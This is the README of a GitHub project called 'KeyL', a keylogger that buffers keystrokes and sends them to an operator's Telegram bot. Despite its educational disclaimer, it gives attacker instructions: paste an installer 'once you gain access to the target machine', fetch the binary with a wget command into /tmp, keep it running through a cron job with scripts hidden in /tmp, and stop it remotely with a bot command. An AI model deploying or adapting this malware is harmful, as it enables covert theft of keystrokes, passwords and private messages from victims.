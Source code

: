 # KeyL

**Disclaimer:**  
This project of a Key Logger is for **educational purposes**. Use it **only** in controlled environments or virtual machines that you own. Do **not** deploy or use this code on any system without explicit permission from the owner. Misuse of this software may violate laws and going to jail it's dumb so use the brain.

## Description

This keylogger records keystrokes and saves them locally in a temporary buffer. When the number of captured keystrokes reaches a predefined threshold, the content is automatically sent to a Telegram bot controlled by the operator.

## How2UseIt

Once you gain access to the target machine, copy and paste the content of `toBePasted.txt` to activate the persistent logger.

You need to configure it for your own setup. Here's how:

1. **Set Your Telegram Token** (Mandatory) 
   Open `config.py` and insert your Telegram bot token.  
   > If you’re unsure how to get one, just ask ChatGPT or refer to the [Telegram Bot API docs](https://core.telegram.org/bots).

2. **Customize Logger Behavior**  (Optional)
   You can configure the logger by modifying flags inside `KeyL.py`.  
   If you make changes, you'll need to build your own version to install.

By default, `toBePasted.txt` installs the static version hosted on GitHub:
```bash
wget -O /tmp/keyl https://raw.githubusercontent.com/fortigate3600/KeyL/main/keyl
```


Before starting the program, send a dummy message to the Telegram bot.
This is necessary for the bot to retrieve your chat_id and be able to respond to you.

To stop the keylogger on a specific machine remotely,
send the command `/kill <machine_id>` to the Telegram bot.


## How it works
<img width="1233" height="516" alt="killSwitchMechanism" src="https://github.com/user-attachments/assets/aac92346-7d68-4f4b-8460-fb7a1a382a45" />

The persistence mechanism is simple (and quite weak): if the logger process is killed, it gets respawned automatically by a cronjob calling launc.sh.
I have hidden the .sh files in the /tmp directory. I could have made it stealthier, but this project is just for academic purposes.

Once the main program calls KillSwitch.sh, the latter delete every file concerning us, and cleans the crojob.

The make.sh script (or the toBePasted.txt) creates the files shown in the image above.
Now, let’s dive into what the code does.

## Code

It monitors every keypress and stores each key in a buffer. Once the buffer reaches a certain threshold, it sends the content to a Telegram bot.

Specifically, the monitorShift() function checks whether the Shift key is being held down and communicates this through a global flag to monitorKeys(), which logs the pressed keys. If necessary, the keys are passed through a dictionary to convert them to their uppercase equivalents.




